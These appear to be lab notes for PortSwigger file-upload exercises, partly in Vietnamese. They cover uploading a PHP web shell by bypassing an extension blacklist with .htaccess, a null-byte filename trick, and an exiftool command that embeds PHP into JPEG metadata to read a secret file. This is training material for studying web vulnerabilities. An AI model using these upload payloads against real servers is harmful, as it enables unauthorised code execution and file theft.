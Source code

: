 # Web shell upload via extension blacklist bypass

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

1. Upload `.php` file --> blocked

2. Upload `.htaccess` file with content: `AddType application/x-httpd-php .l33t` to overwrite the config in upload folder

3. Upload `test.133t` with content: `<?php echo file_get_contents('/home/carlos/secret'); ?>` to get the flag.

# Bypass whitelist extension with Null byte

Upload avatar only allowed .png and .jpg

PHP 5.3.4 < Vulnerable to null byte injection

*file name*: `test.php%00.jpg`

# Flawed validation of the file's contents
Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

**ExifTool**: https://exiftool.org/

**Command**:
```bash
.\exiftool.exe -Comment="<?php echo 'START' . file_get_contents('/home/carlos/secret') . 'END'; ?>" 1.jpg -o magic.php
```

`1.jpg` là ảnh chèn metadata. Câu lệnh trên chèn code `PHP` vào metadata của `1.jpg` và khi ảnh này được upload và được đọc như file php(file extension/inclusion) thì đoạn code PHP trên sẽ được thực thi. Phần START và END để phân biệt output của câu lệnh với đống byte 'rác'.

![magic](magic.png)


